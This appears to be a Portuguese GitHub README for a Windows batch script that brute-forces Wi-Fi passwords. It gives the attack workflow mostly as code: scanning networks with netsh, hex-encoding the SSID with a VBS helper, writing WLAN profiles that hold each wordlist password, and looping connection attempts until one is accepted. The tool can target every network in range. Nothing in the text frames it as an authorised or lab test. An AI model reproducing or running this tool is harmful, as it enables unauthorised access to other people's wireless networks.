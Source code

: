 # BruteForce de Wi-fi com CMD ( Prompt de comando do Windows )

---

### Lembrando
**Antes de iniciar o programa, é preciso criar um wordlist.txt no mesmo diretório do programa, a primeira llinha do wordlist deve estar vázia, pois o código pula a primeira linha**

---

Estarei mostrando uma forma de usar o método de Brute Force para Wi-Fi no Windows;
**Resaltando que este Brute Force foi feito no WIndows 10** *(Caso você for testar em uma outra versão, talvez não funcione por conta das "Frases de retorno que contém no código" mas pode ser editado de acordo com o que é retornado :D)* 

### Como usar:
Os arquivos que estão na pasta [Files]('https://github.com/mrhashtagsecurity/bruteforce-wifi-cmd/tree/master/files'), o *`.vbs`* é para criptografar o nome da rede em **hex**, o arquivo *`.cmd`* é o programa em si, e o *`wordlist.txt`* são as senhas ( **Relembrando a primeira linha deve ficar vázia** )

* Ao abrir o programa, ele te dar um aviso que vc deve criar sua Wordlist de possíveis senhas;

* Na proxima tela vai mostrar as redes Wi-Fi disponíveis, você pode escolher "**0**"(zero), para que ele que ele faça um teste em todas as redes disponíveis usando o mesmo wordlist, ou escolher um outro número equivalente a rede que mostra ao lado

```cmd
[0] Todos
[1]SSID 1 : RedeWifi1 - Net
[2]SSID 1 : RedeWifi2 - Net2
...
```

**Depois disso, deixe a mágica acontecer!**

---

### Algumas especificações:
O comando `netsh wlan show networks bssid` verifica todas as redes wi-fi disponíveis 
 ao alcance de seu adaptador de rede wireless

As únicas informações necessárias para mim seria o SSID e o tipo de Autenticação, para isso usei um filtro com o comando **Find** e **Findstr** abaixo:

```cmd
netsh wlan show networks bssid | findstr "SSID Autentica" | findstr /v "BSSID">o
type o | find "SSID" | find /n ":">u
type o | find "Autentica" | find /n ":">i
type u
```
Na sequência usei o Comando **for** foi usado para separar o que eu queria
```cmd
for /f "tokens=1,2* delims=:" %%a in ('find "[%bf%]" u') do (
	for /f "tokens=1* delims= " %%e in ("%%b") do (
		if "%%f" EQU "" (
			set select=%%e
		)else (
			set select=%%e %%f
		)
	)
)

for /f "tokens=1,2 delims=:" %%a in ('find "[%bf%]" i') do (
	
	for /f "tokens=1,2 delims= " %%e in ("%%b") do (
		for /f "tokens=1,2 delims=-" %%m in ("%%e") do (
			set tipo=%%m
		)
	)
)
```
O arquivo Vbs faz toda encriptação para *hex*, e já me retorna todo valor
```vbs
Set Args = Wscript.Arguments
For Each arg In args
	strString = arg
	strHex =""
	For i=1 To Len(strString)
	    strHex = strHex + Hex(Asc(Mid(strString,i,1)))
	Next

	WScript.Echo strHex
Next
```

Agora vem a parte final onde eu adiciono um perfil de rede wireless para poder me conectar;

```cmd
echo ^<?xml version="1.0"?^> >"Wi-Fi-%select%.xml"
echo ^<WLANProfile xmlns="http://www.microsoft.com/networking/WLAN/profile/v1"^> >>"Wi-Fi-%select%.xml"
echo 	^<name^>%select%^</name^> >>"Wi-Fi-%select%.xml"
echo 	^<SSIDConfig^> >>"Wi-Fi-%select%.xml"
echo 		^<SSID^> >>"Wi-Fi-%select%.xml"
echo 			^<hex^>%hex%^</hex^> >>"Wi-Fi-%select%.xml"
echo 			^<name^>%Select%^</name^> >>"Wi-Fi-%select%.xml"
echo 		^</SSID^> >>"Wi-Fi-%select%.xml"
echo 	^</SSIDConfig^> >>"Wi-Fi-%select%.xml"
echo 	^<connectionType^>ESS^</connectionType^> >>"Wi-Fi-%select%.xml"
echo 	^<connectionMode^>auto^</connectionMode^> >>"Wi-Fi-%select%.xml"
echo 	^<MSM^> >>"Wi-Fi-%select%.xml"
echo 		^<security^> >>"Wi-Fi-%select%.xml"
echo 			^<authEncryption^> >>"Wi-Fi-%select%.xml"
echo 				^<authentication^>%tipo%PSK^</authentication^> >>"Wi-Fi-%select%.xml"
echo 				^<encryption^>AES^</encryption^> >>"Wi-Fi-%select%.xml"
echo 				^<useOneX^>false^</useOneX^> >>"Wi-Fi-%select%.xml"
echo 			^</authEncryption^> >>"Wi-Fi-%select%.xml"
echo 			^<sharedKey^> >>"Wi-Fi-%select%.xml"
echo 				^<keyType^>passPhrase^</keyType^> >>"Wi-Fi-%select%.xml"
echo 				^<protected^>false^</protected^> >>"Wi-Fi-%select%.xml"
echo 				^<keyMaterial^>%senha%^</keyMaterial^> >>"Wi-Fi-%select%.xml"
echo 			^</sharedKey^> >>"Wi-Fi-%select%.xml"
echo 		^</security^> >>"Wi-Fi-%select%.xml"
echo 	^</MSM^> >>"Wi-Fi-%select%.xml"
echo 	^<MacRandomization xmlns="http://www.microsoft.com/networking/WLAN/profile/v3"^> >>"Wi-Fi-%select%.xml"
echo 		^<enableRandomization^>false^</enableRandomization^> >>"Wi-Fi-%select%.xml"
echo 	^</MacRandomization^> >>"Wi-Fi-%select%.xml"
echo ^</WLANProfile^> >>"Wi-Fi-%select%.xml"
```
Depois disso, faço a conexão, e verifico o status atual de conexão
```cmd
netsh wlan add profile filename="Wi-Fi-%select%.xml">nul
echo.
echo Testando Senha: %senha%
echo Aguade...
ping /n 2 127.0.0.1>nul
netsh wlan connect "%select%">nul
:autenticando
set senhaatual=%senha%
ping /n 5 127.0.0.1>nul
netsh wlan show interfaces | find "Estado">connectStatus
for /f "tokens=1* delims=:" %%d in (connectStatus) do (
	for /f "tokens=1* delims= " %%m in ("%%e") do (
		echo %%m
		if %%m EQU associando (
			echo Quase la... Relaxa....
			goto autenticando
		)
		if %%m EQU Autenticando (
			echo Autenticando...
			if %senhaatual% EQU %senhaanterior% (
				if %all% EQU "True" (
					goto allwifi
				)
				goto nadaencontrado
			)
			goto autenticando
		)
		if %%m EQU Desconectado (
			echo Acesso Negado
			set senhaanterior=%senha%
			if %senhaatual% EQU %senhaanterior% (
				if %all% EQU "True" (
					goto allwifi
				)
				goto nadaencontrado
		)
		if %%m EQU desconectando (
			echo Acesso Negado
			set senhaanterior=%senha%
			if %senhaatual% EQU %senhaanterior% (
				if %all% EQU "True" (
					goto allwifi
				)
				goto nadaencontrado
		)
		)else (
			echo Acesso Permitido
			goto fim
		)
	)
)
```
Meu perfil Facebook: https://www.facebook.com/100001371062730


Autor: Dayvson Vinicius


Data Crição: 18/02/2018